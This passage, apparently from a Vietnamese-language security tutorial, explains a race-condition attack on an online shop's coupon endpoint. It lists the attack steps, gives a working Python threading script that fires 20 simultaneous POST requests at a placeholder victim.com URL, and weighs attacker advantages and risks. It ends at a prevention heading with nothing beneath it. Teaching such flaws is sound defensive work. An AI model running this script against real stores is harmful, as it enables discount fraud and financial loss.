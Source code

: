 **Quy trình tấn công:**

1. Đăng nhập tài khoản.
2. Sử dụng Burp Suite hoặc script Python gửi **20 request POST** áp mã giảm giá **gần như đồng thời**.
3. Nếu server không khóa tài nguyên đúng cách, tất cả yêu cầu được áp dụng → sản phẩm giảm 50% nhiều lần, dẫn đến giá trị âm hoặc giá gần như 0.

**Payload mẫu Python (sử dụng threading)**:

```python
import requests
import threading

url = "https://victim.com/apply-coupon"
data = {"coupon": "SALE50"}
cookies = {"session": "abc123"}

def send_request():
    requests.post(url, data=data, cookies=cookies)

threads = []
for i in range(20):
    t = threading.Thread(target=send_request)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

------

## **6. Đánh giá**

Race condition **không phụ thuộc vào lỗi code truyền thống như SQLi hay XSS**, mà đến từ **lỗi thiết kế logic và đồng bộ**.

**Ưu điểm cho attacker**:

- Không cần khai thác lỗ hổng code injection.
- Có thể thực hiện từ client thông thường hoặc script đơn giản.

**Khó khăn**:

- Yêu cầu timing chính xác.
- Ứng dụng có thể triển khai rate-limiting hoặc transaction lock.

**Rủi ro cao**:

- Liên quan trực tiếp tới tài chính và dữ liệu nhạy cảm.
- Dễ bị khai thác trên hệ thống tải cao (high traffic) vì timing xử lý không đồng bộ.

## **Cách phòng tránh:** 
